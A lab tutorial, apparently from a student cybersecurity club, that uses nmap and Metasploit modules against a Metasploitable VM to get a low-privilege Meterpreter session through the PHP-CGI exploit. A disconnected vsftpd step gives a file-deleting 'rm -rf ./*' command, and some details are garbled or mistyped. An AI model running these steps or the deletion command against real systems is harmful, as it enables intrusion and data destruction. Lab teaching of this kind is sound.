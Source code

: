 # Exploiting HTTP: A Practical Guide

## Introduction to Port 80 Vulnerabilities

This guide demonstrates how to identify and understand vulnerabilities in HTTP services running on Port 80. This knowledge is essential for system administrators and security professionals to better protect their systems.

## Why Focus on Port 80?

HTTP (Hypertext Transfer Protocol) running on Port 80 is a fundamental protocol for web services. We focus on it because:

* It's commonly used for web traffic
* It transmits data in plaintext, making it easier to analyze
* Many legacy systems still use HTTP instead of HTTPS
* It's often a starting point for security assessments

## Required Tools

1. Metasploitable - A purposely vulnerable virtual machine for security testing
3. Kali Linux - Security-focused Linux distribution containing:
   * Nmap - Network scanning and reconnaissance tool
   * Metasploit Framework (MSF)
4. Web browser - For verifying findings

## Technical Breakdown

### Step 1: Initial Reconnaissance with Nmap

Command used: `nmap -sV [IP] -p80`

![Initial Nmap Scan Results](base_nmap_scan.png)

Let's break down this command:
* `-sV`: Performs version detection of services
* `-p80`: Specifically targets port 80
* This scan identifies:
   * Running web server software
   * Version information
   * Operating system details

### Step 2: Service Enumeration
1. Launch Metasploit Framework
`msfconsole`

2. Search for HTTP information gathering module
`search http_version`
![HTTP Version](http.png)

4. Select the HTTP version scanner
`use auxiliary/scanner/http/http_version`

5. View available options
`show options`

6. Set your target IP
`set RHOSTS [TARGET_IP]`

7. Execute the scan
`run`
![RHOSTS Output](rhosts.png)

**Note: Run the scan to gather detailed information about what services and applications are running on this port. This reconnaissance step will help identify the specific technologies and versions being used by the target web server. Once we have this information, we can better understand what potential vulnerabilities or misconfigurations might exist and determine our next steps for enumeration.**

### Step 2a: Understand the Information Given
The codeblock that was returned to us provides a lot of information in one single line. Every single one of the returned components is important. In some way, they are all succeptible to manipulation and exploitation. I will provide a better breakdown of how. 

**Apache/2.28** - This is the Apache web server software, version 2.28
  * Web server vulnerabilities like remote code execution
    
**(Ubuntu)** - The server is running on Ubuntu Linux distribution
  * OS-level vulnerabilities (kernel exploits, privilege escalation)
    
**DAV/2** - WebDAV (Web Distributed Authoring and Versioning) version 2 is enabled, which allows file management over HTTP
  * File manipulation vulnerabilities, directory traversal
    
**Powered by PHP/5.2.4-2 ubuntu5.10** - The server is running PHP version 5.2.4-2, specifically the Ubuntu package version 5.10
  * Most critical due to age: Remote code execution, SQL injection, File inclusion vulnerabilities, Memory corruption issues

**Out of all these options - the PHP one seems the most attractive. It extremely only (15 years) and has multiple access points. There is also a lot of open source information that we can find online to help us accomplish this.**


### Step 3: Directory Structure Analysis
The next thing that we are going to do is ensure that PHP is running an possibly see some of the other protocols running on out Port 80 (HTTP).


A directory scanner (dir_scanner) actively probes for hidden directories and files on a web server, while HTTP version detection just identifies server software versions. Here's the reformatted command sequence:

1. Launch Metasploit Framework `msfconsole`

2. Search for directory scanning module `search dir_scanner`

3. View scanner options `show options`

4. Configure target `set RHOSTS [IP]`

5. Execute scan `run`
   ![Dir_Scanner Output](dir_scanner_output.png)

### Step 4: Clarify Objective
We want access to the backend of the HTTP server. Here is the visualization of the front-end.
![Metaploitable HTTP](http_homepage.png)
![PHP Admin Login](php_admin.png)


### Step 5: Exploit ;)

1. The most straighforward way to get more information is to search for an admin login page that may be explosed becuase developers left it open. there are a couple of naming conventions that this could falll under.
  * [IP or WebAddress]/info.php or [IP or WebAddress]/phpinfo.php

    These are the results: ![PHP Admin Page](PHPinfo.png)

2. Out of all the sections here, one stands out the most. The configuration file stands out the most because we may be able to gain access through it. After all, that's what it's intended for.
Let's load up Metasploitable and figure out how to find an exploit now.
  * Launch Metasploit Framework `msfconsole`
  * Find a Suitable Exploit `seach php_cgi`
    Bingo: ![PHP CGI Exploit Located](CGIInjection.png)
3. Let's load up and exploit.
  * `use 0`
  * `show options`
  * `set RHOSTS [IP]`
  * `exploit`
  * The Meterpreter session starting was an extremely good sign. Now we can pop a shell. But first let's verify we are in.

![Session Started with Exploit](Exploit.png)

Here you can see that we are a lower-level privileged user. There are also files available on the backend that we couldn't see at first when we went to the HTTP web page.
So we can consider this a success.

Next time we will unpack how to escalate our low-level privileges so that we can do more and fully own the system.
![Success](AccessGranted.png)

### Step 5a: Exploit w/ Full Access
vsftpd is the Very Secure FTP Daemon (FTP being the file transfer protocol)
1. Delete all files in directory: `rm -rf ./*`

### Clarmeont Cybersecurity Club's Next Event - Capture the Flag
Join us! Scan the QR Code to join our mailing list to stay connected for future events.
![CTF Flyer](CTF_flyer.pdf)
![QR Code](QRCode.png)
